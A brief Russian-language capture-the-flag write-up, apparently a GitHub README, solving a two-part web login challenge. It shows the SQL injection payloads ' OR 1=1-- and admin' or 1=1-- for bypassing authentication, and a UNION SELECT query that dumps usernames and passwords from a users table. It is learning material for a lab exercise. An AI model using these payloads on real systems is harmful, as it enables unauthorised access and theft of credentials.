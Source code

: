 ## WriteUP
- Для начала посмотрим исходный код элемента, и увиди там подсказку.
  <img width="328" alt="Снимок экрана 2024-09-16 в 15 33 11" src="https://github.com/user-attachments/assets/401016f7-f372-4607-ba6f-1a161ad77e14">
- Читаем про SQL injection и пробуем самый простой шаблон, поле пароля можно оставить пустым 
```
' OR 1=1--
или
admin' or 1=1--
```
<img width="1512" alt="Снимок экрана 2024-09-16 в 15 37 13" src="https://github.com/user-attachments/assets/0a739a19-92c1-45ec-9a57-d563079ee4a7">
# Part 2 
- Из условий ясно что есть второй флаг и та же инъекция, значит надо делать более сложный запрос. Из первой части понятно что полей выводится 2 и второе это не пароль и это сильно помогает нам. Составим UNION запрос 

```
' UNION SELECT username, password FROM users--
```
<img width="1512" alt="Снимок экрана 2024-09-16 в 15 40 15" src="https://github.com/user-attachments/assets/69bc9dc4-2417-49a7-b564-3d8c63bbd3fb">
-А вот и флаг
